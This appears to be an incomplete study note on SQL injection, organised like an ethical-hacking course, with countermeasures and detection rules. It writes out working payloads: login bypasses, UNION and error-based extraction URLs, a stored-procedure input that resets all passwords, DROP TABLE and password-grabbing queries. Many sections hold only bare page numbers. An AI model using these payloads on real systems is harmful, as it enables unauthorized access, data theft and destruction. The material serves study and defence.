






# SQL Injection

## SQL Injection concepts

... is a basic attack used to gain unauthorized access to a db or retrieve information from a db

It is a flaw in web application and not a db or web server issue

It is a major issue for all db-driven websites

... can be used to implement the following attacks:

- **Authentication bypass**: an attacker logs onto an application without providing a valid username
- **Authorization bypass**: an attacker alters authorization information stored in the db
- **Information disclosure**: an attacker obtains sensitive information
- **Compromised data integrity**: an attacker defaces a web page, insert malicious content, or alters the contents
- **Compromised availibility of data**: an attacker deletes the db information, delete logs, or audit information
- **Remote code execution**: an attacker compromises the host OS

All relational db are susceptible to ...

... target websites and web apps that do not follow secure coding practices

### Examples of SQL injection

- on login form
- on search field
- on forgot password form

## Types of SQL injection


### In-band

An attacker uses the same communication channel to perform the attack and retrive the results.

#### Error-based

Intentionally inserts bad inputs into an application, causing it to return db errors.

#### system stored procedure

Exploits db stored procedures.

If the web application does not sanitize the user inputs to dynamically construct SQL statements.

```sql
CREATE PROCEDURE Login (
  @user_name varchar(20),
  @password varchar(20)
  )
AS
  BEGIN
    DECLARE @query varchar(250)
    SET @query = 'SELECT 1 FROM ERSURB.dbo.COMU_UTENTI WHERE codice = ' + @user_name + ' AND password = ' + @password
    EXEC(@query)
  END
```

If the attacker enters the following inputs in the application input fields using the above stored procedure he will be able to login with any password:

User input: 'user or 1=1', 'pwd'

#### illegal - logically incorrect query

For example, to find the column name, an attacker may give the following malicious input:

Username: 'Bob"

The resultant query will be

```sql
SELECT * 
FROM Users 
WHERE UserName= 'Bob"' 
AND password =
```

the db may return the following error message:

Incorrect Syntax near 'Bob'. Unclosed quotation mark after the character string " AND password='xxx".

#### union

An attacker uses a UNION clause to append a malicious query to the requested query.

The attacker checks for the UNION SQL injection vulnerability by adding a single quote character (') to the end of a "php?id=" command (QueryString).

The type of errore message received will tell the attacker if the db is vulnerable to a UNION SQL injection

```sql
-- original query
SELECT name, phone, address
FROM Users
WHERE Id=$id

-- if you set the Id value as:
$id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable

-- the final query is:
SELECT name, phone, address
FROM Users
WHERE Id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable
```

#### tautology

An attacker uses a conditional OR clause such that the condition of the WHERE clause will always be true

```sql
SELECT *
FROM users
WHERE name = '' OR '1'='1';
```

This query will always be true, as the second part of OR clause is always true

#### end of line comment

An attacker uses line comments in specific injection inputs.
The db will execute the code until it reaches the commented portion, after which it will ignore the rest of the query.

```sql
-- you can login to an admin account without the password
SELECT *
FROM members
WHERE username = 'admin'--' AND password = 'password'
```

#### in-line comments

This type of injections allows an attacker to bypass blacklisting, remove spaces, obfuscate, and determine database versions.

```sql
INSERT INTO Users (UserName, isAdmin, Password)
VALUES ('".$username."', 0, '".$password."')"
```

The attacker may provide malicious inputs as follows

UserName = Attacker', 1 /*
Password = */'mypwd

The generated query gives the attacker administrator privileges

```sql
INSERT INTO Users (UserName, isAdmin, Password)
VALUES ('Attacker', 1, /*', 0, '*/'mypwd')
```

#### piggybacked query (stacked queries)

An attacker injects an additional malicious query into the original query.

Attackers use a semicolon (;) as a query delimiter to separata the queries.

```sql
-- original query
SELECT *
FROM EMP
WHERE EMP.EID = 1001 AND EMP.ENAME = 'Bob'

-- the attacker concatenates the delimiter and malicious query

...;
DROP TABLE DEPT;
```

### Blind - inferential

The attacker has no error messages from the system to work on. He simply sends a malicious SQL query to the db.

#### time-based SQL injection

... evaluates the time delay that occurs in response to true or false queries sent to the database


#### Boolean exploitation

Multiple valid statements that evaluate true and false are supplied in the affected parameter in the HTTP request

By comparing the response page between both conditions, the attackers can infer whether or not the injection was successful

Example:

http://www.myshop.com/item.aspx?id=67

An attacker can manipulate the above request to:

http://www.myshop.com/item.aspx?id=67 and 1=2

```sql
-- SQL Query Executed
SELECT Name, Price, Description
FROM ITEM_DATA
WHERE ITEM_ID = 67 AND 1 = 2
```

If the result of the above query is FALSE, no items will be displayed on the web page. Then, the attacker changes the above request to

http://www.myshop.com/item.aspx?id=67 and 1=1

```sql
-- SQL Query Executed
SELECT Name, Price, Description
FROM ITEM_DATA
WHERE ITEM_ID = 67 AND 1 = 1
```

If the result of the above query returns TRUE, then the details of the item with id=67 are displayed.

#### Heavy query

Attackers use heavy queries to perform a time delay SQL injection attack without using time delay functions.

A heavy query retrieves a significant amount of data and takes a long time to execute in the database engine.

Attackers generate heavy queries using multiple joins on system tables.

```sql
SELECT *
FROM products
WHERE id=1 AND 1 
-- this query takes a long time to execute
< SELECT count(*) 
FROM all_users A, all_users B, all_users C

-- the attacker injects the id parameter with
1 AND 1 < SELECT count(*) FROM all_users A, all_users B, all_users C
```

### Out-of-band

Attackers use different communication channels to perform the attack and obtain the results.

1. the attacker needs to **communicate with the server** and acquire features of the **database server** used by the web application
2. attackers use different **communication channels** to perform the attack and obtain the results
3. attackers use **DNS** and **HTTP requests** to retrieve data from the db server
4. for example, in a Microsoft SQL server, an attacker exploits the **xp_dirtree command** to send DNS requests to a server controlled by the attacker.

In Oracle db, an attacker may use the UTL_HTTP package to send HTTP requests from SQL or PL/SQL to a server

## SQL injection methodology

... consists on the following steps:

- information gathering and vulnerability detection
- launching attacks
- compromising the entire target network

### information gathering

1. check if the web application connects to a **db server**
2. list all the **input fields, hidden fields**, and post requests
3. attempt to **inject codes** into the input fields to generate an error
4. try to insert a **string value** where a number is expected in the input field
5. use **UNION operator** to combine the result-set of two or more SELECT
6. check the detailed **error messages** for a wealth of information to execute SQL injection

#### Identifying data entry paths

Attackers analyze GET and POST requests to identify all the input fields, hidden fields, and cookies.

The attacker may use automated tools such as:

- [Tamper Chrome](https://tamper.dev) is a Chrome extension
- [Burp Suite](https://portswigger.net/burp) is a web application security testing utility that allows to inspect and modify traffic between a browser and a target application.

#### Extracting information through Error Messages

You can vary the attack technique depending on the type of errors found.

Methods:


#### Vulnerability detection

There are standard SQL injection inputs called testing strings used by an attacker to perform SQL injection attacks.

These testing strings are widely known as a cheat sheet for SQL injection.


#### Additional methods to detect

- **Function testing**  falls within the scope of black box testing, and requires no knowledge of the inner design of the code or logic. It checks the security, user interface, database, client/server applications, navigational functions, and overall usability of a component or system
- **Fuzz testing** is an adaptive testing technique used to discover coding errors by inputting a massive amount of random data and observing the changes in the output. Massive amounts of random data will be generated by the fuzz testing tools (WSFuzzer; Burp suite; HCL AppScan; Peach Fuzzer)
- **Static / Dynamic testing** is the analysis of web application source code

#### Black Box Pen Testing

Detecting:

- issues
  - send **single quotes** or **double quotes** as input to identify instances where the user input is not sanitized
- input sanitization
  - use **right square bracket** (]) to identify instances where the user input it used as a part of an SQL identifier without any input sanitization
- truncation issues
  - send **long strings** of junk data, similar to strings to detect buffer overruns
- sql modification
  - send long strings of single quote characters (or right square brackets or double quotes)
  - these max out the return values from **REPLACE** and **QUOTENAME** functions and might truncate the command variable used to hold the SQL statement

#### Source code review to detect SQL injection vulnerabilities

... can be performed either manually or with the help of tools such as:

- Veracode
- RIPS
- PVS-studio
- Coverity scan
- Parasoft Jtest
- CAST application intellingence platform (AIP)
- Klocwork

It is Static if it is without execution, it is Dynamic if it is at runtime

#### Testing for Bling vulnerability in MySQL and MSSQL

... just by testing the URLs of the target website

If the URL is:

shop.com/items.php?id=101

attackers can add a malicious input 1=0

shop.com/items.php?id=101 and 1=0

this query will always return FALSE because 1 is never equal to 0

The attacker can try to get a TRUE result by injecting 1=1

### launching attacks

#### Perform UNION SQL injection

An attacker uses the UNION clause to concatenate a malicious query with the original query to retrieve results from the target database table.

##### Extract Database name

http://www.certifiedhacker.com/page.aspx?id=1 UNION SELECT ALL 1,DB_NAME,3,4--

[DB_NAME] returned from the server

##### Extract Database tables

http://www.certifiedhacker.com/page.aspx?id=1 UNION SELECT ALL 1,TABLE_NAME,3,4 FROM sysobjects WHERE xtype=char(85)--

[EMPLOYEE_TABLE] returned from the server

##### Extract Table column names

http://www.certifiedhacker.com/page.aspx?id=1 UNION SELECT ALL 1,COLUMN_NAME,3,4 FROM DB_NAME.information_schema.columns WHERE TABLE_NAME='EMPLOYEE_TABLE'--

[EMPLOYEE_NAME] returned from the server

##### Extract First Field data

http://www.certifiedhacker.com/page.aspx?id=1 UNION SELECT ALL 1,COLUMN-NAME-1,3,4 FROM EMPLOYEE_NAME --

[FIELD 1 VALUE] returned from the server

#### Perform Error based SQL injection

An attacker uses the database-level error messages disclosed by an application to build a vulnerability exploit request.

##### Extract Database name

http://www.certifiedhacker.com/page.aspx?id=1 or 1=CONVERT(int, (DB_NAME))--

Syntax error converting the nvarchar value '[DB_NAME]' into a column of data type int

##### Extract First Database table

http://www.certifiedhacker.com/page.aspx?id=1 or 1=CONVERT(int, (SELECT TOP 1 name FROM sysobjects WHERE xtype=char(85)))--

Syntax error converting the nvarchar value '[TABLE_NAME 1]' into a column of data type int

##### Extract First Table column name

http://www.certifiedhacker.com/page.aspx?id=1 or 1=CONVERT(int, (SELECT TOP 1 column_name FROM DB_NAME.information_schema.columns WHERE table_name='TABLE-NAME-1'))--

Syntax error converting the nvarchar value '[COLUMN NAME 1]' into a column of data type int

##### Extract First Field of First Row (data)

http://www.certifiedhacker.com/page.aspx?id=1 or 1=CONVERT(int, (SELECT TOP 1 COLUMN-NAME-1 FROM TABLE-NAME-1))--

Syntax error converting the nvarchar value '[FIELD 1 VALUE]' into a column of data type int

#### Perform Error based SQL injection using Stored Procedure Injection

When using dynamic SQL within a stored procedure, the application must **properly sanitize the user input** to eliminate the risk of code injection, otherwise there is a chance of malicious SQL being executed within the stored procedure

```sql
-- this procedure does not sanitize the input, allowing the return value to display an existing record with these parameters
CREATE PROCEDURE user_login @username varchar(20), @passwd varchar(20)
As
DECLARE @sqlstring varchar(250)
SET @sqlstring = '
SELECT 1
FROM users
WHERE username = ' + @username + ' AND passwd = ' + @passwd

EXEC(@sqlstring)
GO

-- User input: anyusername or 1=1' anypassword
```

```sql
-- this results in the report running and all users' passwords being updated
CREATE PROCEDURE get_report @columnamelist varchar(7900)
As
DECLARE @sqlstrin varchar(8000)
SET @sqlstring = ' SELECT ' + @columnamelist + ' FROM ReportTable'
EXEC(@sqlstring)
GO

-- User input: 1 FROM users; UPDATE users SET password = 'password'; SELECT *
```

#### Bypass website logins using SQL injection



#### Perform Blind

##### Exploitation (MySQL)

 2075

##### Extract Database User

2076

##### Extract Database name

2078

##### Extract Column name

 2080

##### Extract Data from ROWS

 2082

##### Classical Exploitation (MySQL)

 2084

##### Out-of-band Exploitation Technique

 2085

##### Exploiting Second-Order SQL Injection

 2086

#### Bypass Firewall

 2088

#### Perform SQL injection to insert a new user and update password

 2092

#### Exporting a value with regular expression attack

 2094

### Advanced SQL injection (compromising the entire target network)

The attacker does not stop at compromising an application's data. He will advance the SQL injection to compromise the underlying OS and network.

#### Database, Table, and Column Enumeration



#### Advanced Enumeration



#### Features of different DBMSs


#### Creating Database Accounts



#### Password grabbing

... is one of the most serious consequences of an SQL injection attack.

```sql
-- for example, attackers may use the following code to grab the passwords
'; BEGIN DECLARE @var varchar(8000)
SET @var=':' SELECT @var=@var+' '+login+'/'+password+' ' FROM users WHERE login>@var SELECT @var As var INTO temp END --
' AND 1 IN (SELECT var FROM temp) --
' ; DROP table temp --
```

#### Grabbing SQL server hashes

2106

#### Transfer database to attacker's machine

2108

#### Interacting with the Operating System

2109

#### Interacting with the File System

2111

#### Network reconnaissance using SQL injection

2112

#### Network reconnaissance Full Query

2114

#### Finding and bypassing admin panel of a website

2115

#### PL/SQL exploitation

2117

#### Creating server backdoors using SQL injection

2119

#### HTTP header-based SQL injection

2121

#### DNS Exfiltration using SQL injection

2124

#### Case study: SQL injection attack and defense

2126

## SQL Injections Tools

- sqlmap
- mole
- blisqy

On mobile devices:

- SQLi
- Droidbug SQLi spyder
- sqlmapchik

## Evasion techniques

Firewalls and intrusion detection systems (IDS) can detect SQL injection attempts based on predefined signatures.

Attackers use evasion techniques to perform without being detected.

### Evading IDS

2138

### Types of Signature Evasion techniques

#### In-line comment and char encoding

2142

#### String concatenation and obfuscated code

2144

#### Manipulating white spaces and hex encoding

2146

#### Sophisticated matches and URL encoding

2148

#### Null byte and case variation

2151

#### Declare variables and IP fragmentation

2152

#### Variation

2154

## Countermeasures



1. make no assumptions about the **size**, **type**, or **content** of the data that is received by your application
2. test the **size** and **data type of input** and enforce appropriate limits to prevent buffer overruns
3. test the content of **string variables** and accept only **expected values**
4. reject entries that contain **binary data**, **escape sequences**, and **comment** characters
5. never build **transact-sql** statements directly from user input and use stored procedures to validate user input
6. implement **multiple layers of validation** and never concatenate user input that is not validated
7. avoid constructing **dynamic SQL** with concatenated input values
8. ensure that the **web config files** for each application do not contain sensitive information
9. use most **restrictive SQL account types** for application
10. use network, host, and application **intrusion detection systems** to monitor injection attacks
11. perform automated **black box injection testing**, **static source code analysis**, and **manual penetration testing** to probe for vulnerabilities
12. keep **untrusted data** separate from commands and queries
13. in the absence of a parameterized API, use a specific **escape syntax** for the interpreter to eliminate special characters
14. use a **secure hash algorithm** such as SHA256 to store user passwords rather than storing them in plaintext
15. use a **data access abstraction** layer to enforce secure data access across an entire application
16. ensure that the **code tracing** and **debug messages** are removed prior to deploying an application
17. design the code in such a way that it appropriately **traps and handles** exceptions
18. apply the **least privilege rule** to run the applications that access the DBMS
19. validate **user-supplied data** as well as **data** obtained from untrusted sources on the server-side
20. avoid **quoted/delimited** identifiers as they significantly complicate all whitelisting, black-listing, and escaping efforts
21. use a prepared statement to create a **parameterized query** to block the **execution of query**
22. ensure that all user inputs are sanitized before using them in **dynamic SQL statements**
23. use **regular expressions** and **stored procedures** to detect potentially harmful code
24. avoid the use of any **web application** that is not tested by the web server
25. **isolate the web server** by locking it in different domains
26. ensure all software patches are **regularly updated**
27. regularly monitor SQL statements from database-connected applications to identify **malicious SQL statements**
28. use of Views should be mandatory to protect the data in the base by **restricting access** and **performing transformations**
29. **disable shell access** to the database
30. do not disclose database **error information** to the end users

### Use Type-safe SQL parameters

Enforce **type** and **lenght checks** using **Parameter collection** so that the input is treated as a literal value instead of an executable code.

```c#
// Vulnerable code
SqlDataAdapter myCommand = new SqlDataAdapter("LoginStoredProcedure '" + Login.Text + "'", conn);

// Secure code (the @aut_id parameter is treated as a literal value. This value is checked for type and length)
SqlDataAdapter myCommand = new SqlDataAdapter("SELECT aut_lname, aut_fname FROM Authors WHERE aut_id = @aut_id", conn);
SqlParameter parm = myCommand.SelectCommand.Parameters.Add("@aut_id", SqlDbType.VarChar, 11);
parm.Value = Login.Text;
```

### Defenses in the Application

#### Input validation

... helps developers to **prevent user-supplied data** influencing the logic of the code

##### Whitelist validation

... is an effective technique in which only the list of entities that have been **approved for secured access** are accepted.

This validation is commonly implemented using regular expressions.

Characters used for ... include

```bash
^\ {} () @ | ? $
```

Implementation of ... can be intricate in some cases where the inputs cannot be easily determined or if the inputs has large character sets.

##### Blacklist validation

... rejects all the malicious inputs that have been **disapproved for protected access**

This validation is commonly implemented using regular expressions.

Characters used for ... include

```bash
'|%|--|;|/\*\\\*|_|\[|@|xp_
```

The best method for preventing SQL injection attacks is using blacklisting along with the output encoding technique.

#### Output encoding

... is used to encode the input to ensure it is **properly sanitized** before being passed to the database

```java
myQuery = myQuery.replace("'", "\'");
```

A major drawback of ... is that the input needs to be encoded every time before it is supplied to the database query.

#### Enforcing least privileges

Minimum privileges should be assigned to the operating system where the database management system runs, and the **DBMS should never be run as root**

### Detecting SQL injection attacks

The regular expressions mentioned belove checks for attacks that may contain **SQL specific meta-characters** (' or --) with any text inside and their hex equivalents.

```bash
# detection of SQL meta-characters
# /(\')|(\%27)|(\-\-)|(#)|(\%23)/ix

# modified version
# /((\%3D)|(=))[^\n]*((\%27)|(\')|(\-\-)|(|%3B)|(;))/ix

# for typical SQL injection attack
# /\w* ((\%27)|(\')) ((\%6F)|o|(\%4F)((\%72)|r|(\%52))/ix

# for detecting SQL injection with the UNION keyword
# /((\%27)|(\'))union/ix

# for detecting attacks on a MS SQL Server
# /exec(\s|\+)+(s|x)p\w+/ix
```

|Characters|Explanation                        |
|----------|-----------------------------------|
|\\'       |Single-quote char                  |
|\|        |or                                 |
|\\%27     |Hex equivalent of single-quote char|
|\\-\\-    |Double-dash                        |
|#         |Hash or pound char                 |
|\\%23     |Hex equivalent of hash char        |
|i         |Case-insensitive                   |
|x         |Ignore white spaces in pattern     |
|\\%3D     |Hex equivalent of = char           |
|\\%3B     |Hex equivalent of ; char           |
|\\%6F     |Hew equivalent of o char           |
|\\%4F     |Hex equivalent of O char           |
|\\%72     |Hex equivalent of r char           |
|\\%52     |Hex equivalent of R char           |

#### Detection tools

##### OWASP ZAP

> [https://www.owasp.org]

OWASP Zed Attack Proxy is an integrated penetration testing tool for finding vulnerabilities in web applications.

It offers automated scanners as well as a set of tools that allow you to find security vulnerabilities manually.

##### Damn Small SQLi Scanner (DSSS)

> [https://github.com/stamparm/DSSS]

... is a fully functional SQL injection vulnerability scanner.

##### Snort

> [https://snort.org]

Many common attacks use a specific type of code sequence or command that allows attackers to gain unauthorized access to the target's system and data.
These commands and code sequences allow a user to write Snort rules that aim to detect SQL injection attacks.

Some of the expressions that can be blocked by Snort are as follows:

```bash
# detection of SQL meta-characters
# /(\')|(\%27)|(\-\-)|(#)|(\%23)/ix

# for detecting attacks on a MS SQL Server
# /exec(\s|\+)+(s|x)p\w+/ix

# for detecting SQL injection with the UNION keyword
# /((\%27)|(\'))union/ix

# for typical SQL injection attack
# /\w* ((\%27)|(\')) ((\%6F)|o|(\%4F)((\%72)|r|(\%52))/ix

alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS(msg:"SQL Injection - Paranoid"; flow:to_server,established;uricontent:".p1";pcre:"/(\%27)|(\')|(\-\-)|(%23)|(#)/i"; classtype:Web-application-attack; sid:9099;rev:5
```

##### Other tools


